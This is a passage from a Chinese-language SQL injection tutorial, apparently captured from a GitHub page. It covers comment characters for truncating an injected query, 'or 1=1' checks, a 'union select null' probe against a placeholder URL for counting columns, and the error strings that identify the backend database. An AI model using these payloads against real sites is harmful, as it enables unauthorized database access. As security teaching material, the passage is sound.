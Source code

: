 

常见的注释截断方法：

```
#
/*
-- -
;%00
`
```

最后，可以用and1=1，or 1=1 等语句确认闭合完成，漏洞存在。

### 1.3 测试列数

除了前文中提到的 order by 语句以外。

也可以用如下的形式来探测：

```
http://www.foo.com/index.asp?id=12+union+select+null,null-- 
```

不断增加 `null` 至不返回。

### 1.4 探测数据库指纹

在此前的实验中，我们都是使用MariaDB作为后端数据库的，其属于mysql系列数据库。

如果后端数据库不同，那么SQL注入的语句也会不同。有几种探测数据库指纹信息：

1. 第一种方法找出使用后端数据库是通过观察返回的错误应用程序。 以下是一些例子的错误消息:

MySql:

```sql
You have an error in your SQL syntax; check the manualthat corresponds to your MySQL server version for theright syntax to use near ''' at line 1
```

Oracle:

```
ORA-00933: SQL command not properly ended
```

MS SQL Server:

```
Microsoft SQL Native Client error ‘80040e14’Unclosed quotation mark after the character string
```

PostgreSQL:

```
Query failed: ERROR: syntax error at or near
```

2. 常见网页与数据库的关系。

**代码与数据库并不存在绑定关系，以下只能做参考。**

